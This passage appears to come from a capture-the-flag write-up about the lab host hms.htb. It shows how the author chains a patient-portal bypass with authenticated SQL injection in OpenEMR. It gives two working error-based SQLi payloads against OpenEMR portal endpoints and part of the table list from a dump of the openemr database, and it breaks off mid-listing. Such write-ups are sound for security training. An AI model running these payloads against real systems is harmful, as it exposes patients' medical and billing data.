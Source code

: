Since the patient portal didnt seem to reveal any useful information, I moved on to the next section, SQL injection. The first example sounded interesting, because combined with the patient portal bypass, I could use the authenticated SQLi vulnerability.

![](../../.gitbook/assets/17-duplicate-query.png)

```text
http://hms.htb/portal/find_appt_popup_user.php?catid=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -
```

![](../../.gitbook/assets/18-system-user%20%281%29.png)

```text
/portal/add_edit_event_user.php?eid=1 AND EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))

```

system\_user\(\) gets openemr@localhost database\(\) gets openemr

using `sqldump` on database `openemr` gets crapton of tables...

```text
Database: openemr                                                                                      
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| sequences                             |
| version                               |
| addresses                             |
| amc_misc_data                         |
| amendments                            |
| amendments_history                    |
| ar_activity                           |
| ar_session                            |
| audit_details                         |
| audit_master                          |
| automatic_notification                |
| background_services                   |
| batchcom                              |
| billing                               |
| calendar_external                     |
| categories                            |
| categories_seq                        |
| categories_to_documents               |
| ccda                                  |
| ccda_components                       |
| ccda_field_mapping                    |
| ccda_sections                         |
| ccda_table_mapping                    |
| chart_tracker                         |
```